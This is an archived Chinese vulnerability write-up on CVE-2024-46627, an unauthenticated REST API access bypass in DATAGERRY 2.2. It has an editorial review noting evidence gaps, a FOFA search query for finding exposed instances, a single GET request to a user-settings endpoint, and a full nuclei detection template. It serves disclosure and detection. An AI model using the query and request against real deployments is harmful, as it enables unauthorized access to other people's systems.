


# CVE-2024-46627

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：BECON DATAGERRY
- 文献类型：REST权限绕过探测
- 版本、权限及部署边界：文称2.2；/rest/users/1/settings/匿名可达，用户1存在；具体授权策略和部署配置未列
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. GET用户设置返回JSON只证明读接口访问，不能独立证明任意OS命令执行，需关联原研究的写入/执行链
2. matcher只看response_type/model/time且无成功状态，可能命中错误/空模型响应；应检查敏感设置和拒绝对照
3. BECN/becon/作者开源主体拼写不一致，应以项目为准；权限改造是错误译词
4. 有原研究博客/GitHub/NVD，但正文无修复版本/commit，EPSS缺时间戳、verified是模板原字段

### 操作风险

GET用户设置返回JSON只证明读接口访问，不能独立证明任意OS命令执行，需关联原研究的写入/执行链

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<http://x.x.x.x/rest/users/1/settings/>
- 原文参考链接（未重新核验）：<https://nvd.nist.gov/vuln/detail/CVE-2024-46627>
- 原文参考链接（未重新核验）：<https://daly.wtf/cve-2024-46627-incorrect-access-control-in-becn-datagerry-v2-2-allows-attackers-to-execute-arbitrary-commands-via-crafted-web-requests/>
- 原文参考链接（未重新核验）：<https://datagerry.com/>
- 原文参考链接（未重新核验）：<https://github.com/DATAGerry/>
- 原文参考链接（未重新核验）：<https://github.com/d4lyw/CVE-2024-46627>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 fgz  AI与网安   2024-10-10 21:08  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
DATAGERRY REST API 身份验证绕过漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
DATAGERRY 2.2版本  
  
  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
DATAGERRY是DATAGerry开源的一个开源 CMDB 和资产管理工具。  
DATAGERRY 2.2版本存在安全漏洞，该漏洞源于存在不正确权限改造，允许攻击者通过精心设计的Web请求绕过权限验证而执行任意命令。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
title="datagerry"
```  
  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
使用浏览器请求  
```
http://x.x.x.x/rest/users/1/settings/
```  
  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件来自nuclei官网，内容如下  
```
id: CVE-2024-46627

info:
  name: DATAGERRY - REST API Auth Bypass
  author: gy741
  severity: critical
  description: |
    Incorrect access control in BECN DATAGERRY v2.2 allows attackers to execute arbitrary commands via crafted web requests.
  impact: |
    Allows unauthorized access to REST API
  reference:
    - https://nvd.nist.gov/vuln/detail/CVE-2024-46627
    - https://daly.wtf/cve-2024-46627-incorrect-access-control-in-becn-datagerry-v2-2-allows-attackers-to-execute-arbitrary-commands-via-crafted-web-requests/
    - https://datagerry.com/
    - https://github.com/DATAGerry/
    - https://github.com/d4lyw/CVE-2024-46627
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N
    cvss-score: 9.1
    cve-id: CVE-2024-46627
    cwe-id: CWE-284
    epss-score: 0.00045
    epss-percentile: 0.16328
  metadata:
    verified: true
    max-request: 1
    vendor: becon
    product: datagerry
    shodan-query: http.title:"datagerry"
  tags: cve,cve2024,becon,datagerry,unauth,auth-bypass

http:
  - method: GET
    path:
      - '{{BaseURL}}/rest/users/1/settings/'

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '"response_type":'
          - '"model":'
          - '"time":'
        condition: and

      - type: word
        part: content_type
        words:
          - "application/json"
# digest: 4a0a00473045022040420efc711ffd5727fa72189da9f4e2830a0a1bd247edefb9c4392206bdcb5f022100c7c5849fa2e4cdc7240166da0a6077f3c93557cbded880103e8580c784fdb3f1:922c64590222798bb761d5b6d8e72950
```  
  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
